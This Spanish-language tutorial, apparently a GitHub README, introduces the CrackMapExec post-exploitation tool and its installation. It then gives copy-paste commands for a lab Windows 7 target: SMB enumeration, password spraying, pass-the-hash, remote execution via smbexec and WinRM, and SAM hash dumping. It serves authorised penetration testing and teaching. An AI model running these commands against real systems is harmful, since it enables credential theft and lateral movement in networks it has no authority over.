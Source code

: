 
---
# CrackMapExec — PoC

## ¿Qué es CrackMapExec (CME)?

> CrackMapExec (CME) es una herramienta post-explotación y de evaluación de seguridad orientada a redes Windows/Active Directory. Se trata de una utilidad escrita en Python que combina múltiples módulos y bibliotecas (Impacket, MS-RPC, SMB, WinRM, etc.) para permitir a los pentesters automatizar la enumeración, explotación y post-explotación en entornos Windows a gran escala.

Principales capacidades:

- Escaneo y enumeración de hosts y servicios (SMB, WinRM, RDP, LDAP).

- Prueba y verificación de credenciales (listas de usuarios/contraseñas, hashes NTLM).

- Ejecución remota de comandos (WinRM, SMB exec, PSExec, WMI).

- Carga y ejecución de módulos personalizados (post-explotación y recolección de información).

- Integración con Impacket y otros paquetes para técnicas avanzadas (Pass-the-Hash, Kerberos, etc.).


## Instalación rápida con pipx (recomendada)

Vamos a instalar CME de forma aislada usando `pipx` para evitar conflictos con el Python del sistema:

```bash
# 1) instalar pipx si no lo tienes
python3 -m pip install --user pipx
python3 -m pipx ensurepath
# cierra y vuelve a abrir tu terminal si pipx añadió rutas o haz `source ~/.bashrc`

# 2) instalar CME directamente desde el repositorio (pipx creará un venv aislado)
pipx install git+https://github.com/Porchetta-Industries/CrackMapExec

# 3) probar
crackmapexec --version
crackmapexec -h
```

Notas:

- `pipx` instala el paquete en `~/.local/pipx/venvs/` y deja un ejecutable en `~/.local/bin/`. Asegúrate de que `~/.local/bin` está en tu `PATH`.

- Si prefieres la imagen oficial en Docker, puedes usar `docker pull byt3bl33d3r/crackmapexec`.


## Usos habituales en pentesting

CME es una navaja suiza para redes Windows/AD; aquí describimos los usos más comunes durante una evaluación de seguridad:

### 1. Enumeración a gran escala

- `crackmapexec smb 10.0.0.0/24 -u user -p pass` — comprueba acceso SMB en toda una subred.

- Permite listar sesiones, shares y privilegios en hosts alcanzables.


### 2. Pruebas de credenciales y lateral movement

- Probar listas de usuarios/contraseñas o hashes NTLM contra SMB/WinRM/RDP.

- `crackmapexec smb target -u user -H <NTLM_hash>` — Pass-the-Hash.


### 3. Ejecución remota

- `crackmapexec smb target -u user -p pass --exec-method smbexec -x 'whoami'`

- `crackmapexec winrm target -u user -p pass -x 'powershell.exe -c <script>'`


### 4. Recolección de información y post-explotación

- Uso de módulos para volcar SAM, extraer LSA secrets, enumerar GPOs, realizar credential harvesting, etc.

- `crackmapexec smb target -u user -p pass -M <module>`


### 5. Automatización y reporting

- Ejecutar barridos automatizados sobre rangos grandes de IP y exportar resultados para análisis posteriores.


## Buenas prácticas y advertencias legales

- Solo usar CME en entornos que controlamos o donde tengamos autorización explícita.

- Registrar todas las acciones y resultados para reproducibilidad y reporting.

- En laboratorios, ejecutar CME con un usuario no root salvo cuando sea necesario.


## Recursos y documentación

- Repositorio original: [https://github.com/byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

- Forks y mantenimientos comunitarios (si el original está parcheado/archivado): buscar forks actualizados en GitHub.


---

## PoC: ejemplos prácticos (Windows 7 de laboratorio)

A continuación incluimos una serie de ejemplos prácticos organizados por objetivo. En todos los comandos sustituimos `TARGET` o `10.0.0.5` por la IP de la máquina Windows 7 de laboratorio y `USER`, `PASS` o `HASH` por dichas credenciales. Cada comando está en su propio bloque para poder copiar/pegar.

### 1) Comprobación rápida de versión (sanity check)

```bash
crackmapexec --version
```

### 2) Enumeración SMB de un host concreto

```bash
crackmapexec smb 10.0.0.5 -u USER -p PASS --shares
```

### 3) Escaneo de una subred para hosts SMB accesibles

```bash
crackmapexec smb 10.0.0.0/24 -u usuario -p contraseña --shares
```

### 4) Prueba de credenciales (spray simple) contra SMB usando un único usuario y fichero de contraseñas

```bash
crackmapexec smb 10.0.0.5 -u USER -p /ruta/wordlist_passwords.txt
```

### 5) Pass-the-Hash (usar NTLM hash en lugar de contraseña)

```bash
crackmapexec smb 10.0.0.5 -u USER -H <NTLM_HASH>
```

### 6) Ejecución remota de un comando con el método smbexec

```bash
crackmapexec smb 10.0.0.5 -u USER -p PASS --exec-method smbexec -x "whoami && systeminfo | findstr /B /C:\"OS Name\" /C:\"System Type\""
```

### 7) Ejecución remota via WinRM (PowerShell)

```bash
crackmapexec winrm 10.0.0.5 -u USER -p PASS -x "powershell -NoProfile -NonInteractive -Command \"Get-LocalUser; whoami\""
```

### 8) Uso de un módulo (ejemplo: volcado de SAM si existe el módulo)

```bash
crackmapexec smb 10.0.0.5 -u USER -p PASS -M hashdump
```

### 9) Enumeración avanzada: listar sessions y usuarios conectados

```bash
crackmapexec smb 10.0.0.5 -u USER -p PASS --sessions
```

### 10) Guardar resultados en CSV/JSON para reporting

```bash
crackmapexec smb 10.0.0.0/24 -u USER -p PASS -o results.json
```

### 11) Uso desde Docker (ejecutar un comando contra la VM Windows 7)

```bash
docker run --rm -it --net=host byt3bl33d3r/crackmapexec crackmapexec smb 10.0.0.5 -u USER -p PASS --shares
```

### 12) Desinstalación/limpieza pipx (si queremos revertir la instalación rápida)

```bash
pipx uninstall CrackMapExec || pipx uninstall crackmapexec
```


---

